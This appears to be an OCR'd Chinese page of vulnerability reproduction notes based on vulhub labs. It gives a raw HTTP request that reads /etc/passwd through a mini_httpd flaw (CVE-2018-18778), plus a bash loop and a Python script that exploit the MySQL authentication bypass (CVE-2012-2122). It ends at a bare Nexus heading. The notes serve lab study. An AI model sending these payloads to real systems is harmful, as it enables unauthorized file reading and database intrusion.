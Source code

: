 # **[mini_httpd任意文件读取漏洞（CVE-2018-18778）](https://vulhub.org/#/environments/mini_httpd/CVE-2018-18778/)**


## **[漏洞复现](https://vulhub.org/#/environments/mini_httpd/CVE-2018-18778/)**


> 发送请求是将Host置空，PATH的值是文件绝对路径：
```
GET /etc/passwd HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```


# **[Mysql 身份认证绕过漏洞（CVE-2012-2122）](https://vulhub.org/#/environments/mysql/CVE-2012-2122/)**

## **[漏洞复现](https://www.freebuf.com/vuls/3815.html)**

`也就是说只要知道用户名，不断尝试就能够直接登入SQL数据库。`按照公告说法大约`256次`就能够蒙对一次。而且漏洞利用工具已经出现。 受影响的产品： All MariaDB and MySQL versions up to 5.1.61, 5.2.11, 5.3.5, 5.5.22 are

> 网上已经出了`metasploit`版本的相应利用工具，下载地址 利用方法如下：
```
https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/scanner/mysql/mysql_authbypass_hashdump.rb
```

测试payload:
```
for i in `seq 1 1000`; do mysql -u root --password=bad -h 127.0.0.1 2>/dev/null; done
mysql>
```

PY脚本：
```
#!/usr/bin/python
import subprocess

while 1:
        subprocess.Popen("mysql -u root mysql --password=blah", shell=True).wait()
```




# **[Nexus Repository Manager 3 远程命令执行漏洞（CVE-2019-7238）](https://vulhub.org/#/environments/nexus/CVE-2019-7238/)**

